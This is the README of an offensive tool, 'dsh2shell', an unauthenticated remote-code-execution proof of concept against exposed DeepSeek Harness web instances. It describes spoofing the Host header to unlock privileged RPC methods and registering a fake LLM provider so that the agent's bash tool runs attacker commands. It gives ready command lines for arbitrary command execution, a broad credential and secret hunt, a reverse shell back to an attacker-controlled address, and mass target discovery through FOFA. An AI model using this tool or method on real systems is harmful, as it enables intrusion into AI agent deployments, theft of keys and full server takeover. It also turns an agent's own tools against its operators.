

# dsh2shell

Unauthenticated RCE PoC for exposed DeepSeek Harness (dsh) web instances.



**Principle**: spoofing the `Host` header unlocks dsh's privileged RPC methods, which lets the PoC register a temporary LLM provider pointing at its own built-in fake model server and drive the agent's bash tool with deterministic tool calls — no real model or valid API key needed.

## Requirements

- Python 3.8+ (stdlib only)
- A listener address reachable **from the target** (e.g. your VPS public IP)

## Usage

Run one or more commands:

```sh
python3 dsh2shell.py -t https://target.example.com \
    --public-base http://1.2.3.4:9999/v1 --cmd "id" --cmd "cat /flag"
```

Hunt credentials (env, dotfiles, dsh trees, regex sweep; known key/secret patterns are extracted and highlighted):

```sh
python3 dsh2shell.py -t https://target.example.com \
    --public-base http://1.2.3.4:9999/v1 --loot-keys
```

Open an interactive PTY:

```sh
python3 dsh2shell.py -t https://target.example.com \
    --public-base http://1.2.3.4:9999/v1 --shell \
    --lhost 1.2.3.4 --raw
```

FOFA inventory and passive probing:

```sh
export FOFA_KEY='<FOFA_API_KEY>'
python3 dsh2shell.py --fofa
```

Probe one target read-only (reachability, default model, permission preset, provider routes, leftover-check):

```sh
python3 dsh2shell.py -t https://target.example.com --dry-run
```

Repair residue left by a killed run (leftover provider route, dummy credential, default model still pointing at the fake provider; falls back to the built-in `deepseek-official` provider when no user route remains):

```sh
python3 dsh2shell.py -t https://target.example.com --repair
```

Options:

| Option | Meaning |
|---|---|
| `--fofa` | FOFA inventory and passive dsh/API probe |
| `--dry-run` | Probe only: reachability, default model, preset, provider routes; changes nothing |
| `--repair` | Remove fake-LLM residue from a killed run and reselect an existing model |
| `--loot-keys` | Broad credential hunt with key/secret extraction (standalone or with `--cmd`) |
| `--shell` | Open a reverse shell against one explicit target |
| `--cmd "CMD"` | Run a command non-interactively (repeatable) |
| `--no-cleanup` | Leave the attack session and config changes in place |
| `--no-log` | Disable run logging |
| `--log-dir dir` | Directory for timestamped run logs (default `dsh2shell_logs`; always on unless `--no-log`) |
| `-t, --target URL` | Explicit target URL |
| `--lhost address` | Callback address reachable from the target |
| `--shell-port port` | Reverse-shell port (default `4444`) |
| `--llm-listen host:port` | Fake-LLM bind address (default `0.0.0.0:9999`) |
| `--public-base URL` | Fake-LLM `/v1` URL as seen from the target |
| `--secure` | Verify TLS certificates (default: ignore TLS errors) |
| `--raw` | Use a raw local TTY; `Ctrl-]` closes the client |

FOFA results are never passed automatically to exploit modes.

For authorized security testing only.
